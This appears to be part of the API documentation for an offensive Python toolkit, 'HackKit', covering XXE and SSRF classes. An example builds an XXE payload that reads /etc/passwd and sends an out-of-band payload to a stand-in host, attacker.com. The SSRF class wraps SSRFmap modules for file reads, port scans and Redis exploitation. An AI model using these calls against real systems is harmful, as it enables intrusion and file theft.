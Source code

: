 
---

### 13. `XXE`

**Platforms:** Cross-platform
**Dependencies:** `requests`

#### Methods

| Method                                                                                      | Signature                                       | Description                   |
| ------------------------------------------------------------------------------------------- | ----------------------------------------------- | ----------------------------- |
| `__init__()`                                                                                | `def __init__(self) -> None`                    | Ensures `requests` available. |
| `automatic_dependency_checking()`                                                           | Installs `requests` if missing.                 |                               |
| `test_xxe(endpoint: str, xml_payload: str, header: str='application/xml') -> Optional[str]` | Send XML payload, return response text on 200.  |                               |
| `generate_xxe_payload(filepath: str, identifier: str='xxe') -> str`                         | Build simple XXE payload reading local file.    |                               |
| `out_of_band_xxe(endpoint: str, oob_url: str) -> str`                                       | Generate OOB payload and send, return response. |                               |

##### Example: XXE Master Example

```python
from HackKit import XXE

xxe = XXE()
url = "http://vuln/xml"
# 1) Build payload
payload = xxe.generate_xxe_payload(filepath="/etc/passwd")
# 2) Send payload
resp = xxe.test_xxe(url, payload)
print(resp)
# 3) OOB payload
oob = xxe.out_of_band_xxe(url, oob_url="http://attacker.com/notify")
print(oob)
```

---

### 14. `SSRF`

**Platforms:** Cross-platform
**Dependencies:** `requests`, `tqdm`, `git`

#### Methods

| Method                                                                                                                                                                                                                                                                         | Signature                                                         | Description                                      |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | ----------------------------------------------------------------- | ------------------------------------------------ |
| `__init__()`                                                                                                                                                                                                                                                                   | `def __init__(self) -> None`                                      | Clones/pulls SSRFmap repo; installs Python deps. |
| `automatic_dependency_checking()`                                                                                                                                                                                                                                              | Ensures `git`, clones or updates repo, installs requirements.txt. |                                                  |
| `execute(reqfile: str, param: str, modules: List[str], handler: Optional[int]=None, lhost: Optional[str]=None, lport: Optional[int]=None, uagent: Optional[str]=None, ssl: bool=False, proxy: Optional[str]=None, level: int=1, extra_args: Optional[List[str]]=None) -> None` | Run ssrfmap.py with given options.                                |                                                  |
| `module_readfiles(reqfile: str, param: str, rfiles: Optional[str]=None) -> None`                                                                                                                                                                                               | Convenience: file read module.                                    |                                                  |
| `module_portscan(reqfile: str, param: str) -> None`                                                                                                                                                                                                                            | Convenience: portscan module.                                     |                                                  |
| `module_redis(reqfile: str, param: str, lhost: str, lport: int, handler: int) -> None`                                                                                                                                                                                         | Convenience: Redis exploit module.                                |                                                  |
| `module_custom(reqfile: str, param: str, data: str, target_port: int) -> None`                                                                                                                                                                                                 | Convenience: send raw data to port.                               |                                                  |
